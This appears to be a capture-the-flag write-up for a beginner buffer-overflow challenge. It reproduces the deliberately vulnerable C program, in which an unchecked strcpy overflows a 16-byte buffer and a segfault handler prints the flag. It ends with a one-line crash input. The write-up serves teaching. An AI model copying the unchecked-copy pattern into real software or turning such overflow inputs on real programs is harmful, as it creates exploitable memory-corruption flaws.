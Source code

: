 Buffer overflow 0 - Points: 150
===========

## Description

>Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_1_316c391426b9319fbdfb523ee15b37db

## Hint:

> * How can you trigger the flag to print?
> * If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

## Useful Information

There is no check of the input length at :
> * strcpy(buf, input);
The function : 
> * void sigsegv_handler(int sig)
will print the flag on stderr when a error occured .

## Exploit

Making an error by overflowing the buf[16] will lauch the function sigsegv_handler(int sig) which will print the flag on stderr. 

```bash
./vuln $(python -c 'print "A"*50')                     
```

